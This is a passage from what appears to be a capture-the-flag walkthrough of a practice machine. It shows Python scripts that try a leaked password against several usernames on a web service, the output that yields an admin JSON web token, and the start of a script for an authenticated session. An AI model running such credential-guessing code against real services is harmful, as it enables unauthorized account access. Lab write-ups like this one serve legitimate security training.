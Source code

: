       target = "http://10.10.10.137:3000"

      headers = { "Content-Type": "application/json" }

      usernames = ["root", "chihiro", "derry", "admin", "administrator", "Chihiro", "Derry"]
      for username in usernames:
          data = {
              "username": username,
              "password": "Zk6heYCyv6ZE9Xcg"
          }
          auth = r.post(target+"/login", headers=headers, json=data)

          if "Forbidden" not in auth.text: 
              print("[JWT FOUND]\n\nUSERNAME:", username)
              print("\nTOKEN:", auth.json()["token"])
              break
      ```
   2. Running `token_search.py` using `python3`:
      ```console
      $ python3 token_search.py
        [JWT FOUND]
        
        USERNAME: admin
        
        TOKEN: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY2ODU2MTM0LCJleHAiOjE1NjY5NDI1MzR9.b0u3Mb8h0GPSsIRGOiWYqHH1QANE1ogY_HFCfjskvGQ
      ``` 
      __NOTE(S)__:
      1. The password from `config.php` earlier authenticated the user, `admin`.
      2. A valid token is now available for use.
         - The token changes everytime a user is authenticated.

3. Enumerate the service on port 3000 using an authenticated session:
   1. `3000.py`:
      ```py
      import requests as r

      target = "http://10.10.10.137:3000"
      session = r.Session()
      
      # ===EXTRACTING-THE-JSON-WEBTOKEN===================================
      
      headers = { "Content-Type": "application/json" }
      data = {
          "username": "admin",
          "password": "Zk6heYCyv6ZE9Xcg"
      }
      login = session.post(target+"/login", headers=headers, json=data)
      try:
          token = login.json()["token"]
          print("\n[JSON WEB TOKEN]\n\n" + token + "\n")
      except:
          print("\nNO TOKEN FOUND\n")
          exit()
      